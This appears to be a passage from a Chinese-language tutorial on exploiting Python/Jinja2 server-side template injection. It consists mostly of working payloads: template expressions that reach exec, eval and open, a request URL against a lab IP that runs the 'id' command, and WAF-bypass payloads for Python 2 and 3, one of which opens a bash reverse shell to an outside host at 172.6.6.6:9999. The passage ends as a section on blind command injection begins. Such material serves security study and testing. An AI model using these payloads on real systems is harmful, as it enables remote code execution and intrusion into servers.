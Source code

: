 output

```
`{`% for c in [].__class__.__base__.__subclasses__() %`}``{`% if c.__name__=='_Unframer' %`}``{``{` c.__init__.__globals__['__builtins__'].exec("[evil]") `}``}``{`% endif %`}``{`% endfor %`}`
`{`% for c in [].__class__.__base__.__subclasses__() %`}``{`% if c.__name__=='ImmutableDictMixin' %`}``{``{` c.__hash__.__globals__['__builtins__'].eval("[evil]") `}``}``{`% endif %`}``{`% endfor %`}`
`{`% for c in [].__class__.__base__.__subclasses__() %`}``{`% if c.__name__=='ImmutableDictMixin' %`}``{``{` c.__hash__.__globals__['__builtins__'].open("[evil]") `}``}``{`% endif %`}``{`% endfor %`}`
```

随便选一个替换我们之前的Payload,会发现成功执行

```
http://192.168.228.36/?name=`{`% for c in [].__class__.__base__.__subclasses__() %`}``{`% if c.__name__=='ImmutableDictMixin' %`}``{``{` c.__hash__.__globals__['__builtins__'].eval('__import__("os").popen("id").read()') `}``}``{`% endif %`}``{`% endfor %`}`
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0108a9718d4467acd8.png)

**<a class="reference-link" name="waf%E7%BB%95%E8%BF%87"></a>waf绕过**

甩几个test payload<br>
有时候看不到回显。可以在源代码里看到回显

```
python2：
[].__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].system('ls')
[].__class__.__base__.__subclasses__()[76].__init__.__globals__['os'].system('ls')
"".__class__.__mro__[-1].__subclasses__()[60].__init__.__globals__['__builtins__']['eval']('__import__("os").system("ls")')
"".__class__.__mro__[-1].__subclasses__()[61].__init__.__globals__['__builtins__']['eval']('__import__("os").system("ls")')
"".__class__.__mro__[-1].__subclasses__()[40](filename).read()
"".__class__.__mro__[-1].__subclasses__()[29].__call__(eval,'os.system("ls")')
().__class__.__bases__[0].__subclasses__()[59].__init__.__getattribute__('func_global'+'s')['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('bash -c "bash -i &gt;&amp; /dev/tcp/172.6.6.6/9999 0&gt;&amp;1"')

python3：
''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.values()[13]['eval']
"".__class__.__mro__[-1].__subclasses__()[117].__init__.__globals__['__builtins__']['eval']
().__class__.__bases__[0].__subclasses__()[59].__init__.__getattribute__('__global'+'s__')['os'].__dict__['system']('ls')
```

### <a class="reference-link" name="%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%97%A0%E5%9B%9E%E6%98%BE%E5%88%A9%E7%94%A8%E6%8A%80%E5%B7%A7"></a>命令执行无回显利用技巧

OS命令注入的许多实例都是无回显的漏洞。这意味着应用程序不会在其HTTP响应中返回命令的输出。但无回显漏洞仍然可以被利用，只是需要不同的技术。
